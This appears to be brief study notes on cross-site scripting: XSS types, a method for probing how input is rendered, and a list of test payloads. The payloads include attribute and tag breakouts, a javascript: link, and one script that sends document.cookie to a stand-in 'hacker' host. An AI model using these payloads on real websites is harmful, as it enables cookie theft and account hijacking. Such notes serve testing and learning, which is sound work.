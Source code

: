 
### XSS 
Types of XSS
 - Stored: saving xss as like a comment in a dba
 - Reflected: causing css through a url, like a flash
 - DOM: input from use is stored in dom, similar to reflected by using like the location (hash #) portion to exploit
 
Process to detect
 1. Figure out where it goes, Does it get embedded in a tag or a string in a script? 
 2. Special handling.  Url turned into links?
 3. How are special characters handle "<>;:'`
 
Good scripts to try
 - `"><h1>test</h1>` - will show up well on the page
 - '+alert(1)+'
 - "onmouseover="alert(1)
 - http://"onmouseover="alert(1)
 - hello <a name="n" href="javascript:alert('xss')">*you*</a>
 - '><img src=x onerror=alert(1);> or <img src=x onerror=alertHello!> or <b onclick=alert(1)>click me!
 - "><SCRIPT>var+img=new+Image();img.src="http://hacker/"%20+%20document.cookie;</SCRIPT>

